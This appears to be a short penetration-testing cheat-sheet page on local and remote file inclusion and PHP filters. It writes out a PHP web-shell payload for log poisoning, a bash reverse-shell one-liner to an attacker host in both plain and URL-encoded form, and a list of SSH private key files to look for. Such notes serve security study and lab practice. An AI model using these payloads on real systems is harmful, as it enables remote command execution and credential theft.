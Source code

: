 # File Inclusion/Upload

## LFI

LFI is when we can include a local file on the target.
This will often be insecure php servers where we are able to include unfortunate php files that are not meant to be executed.
If we can do log poisoning, this will for instance allow us to do something like writing this payload to a log:

```
<?php echo system($_GET['cmd']); ?>
```
and then calling the URL where the log is stored with the query param `cmd=$command`
If the log has been poisoned as is executed server side, the given command will be executed and shown in the response on the page.

The cmd could for instance be a bash one-liner for a reverse-shell:

```
bash -c "bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1"
```

Which could be url-encoded as it contains special characters:

```
bash%20-c%20%22bash%20-i%20%3E&%20/dev/tcp/$ATTACKER_IP/$ATTACKER_PORT%200%3E&1
```


When looking for private keys with LFI, remember to try all typical key formats:

* `id_rsa`
* `id_ed25519`
* `id_ecdsa` 


## RFI

RFI happens if we are able to refer a file on our attackbox which will be executed.
This could be a payload such as [the php payload](../payloads-n-scripts/reverse-shells/shell.php) exposed by a server on the attackbox. 


## PHP Filters

Filters such as `filter://` and `data://` can be used for LFI to include files that would otherwise not have been included.
Sometimes this can either allow us to simply read the php files in the http responses, or we can even use it to execute them server side.







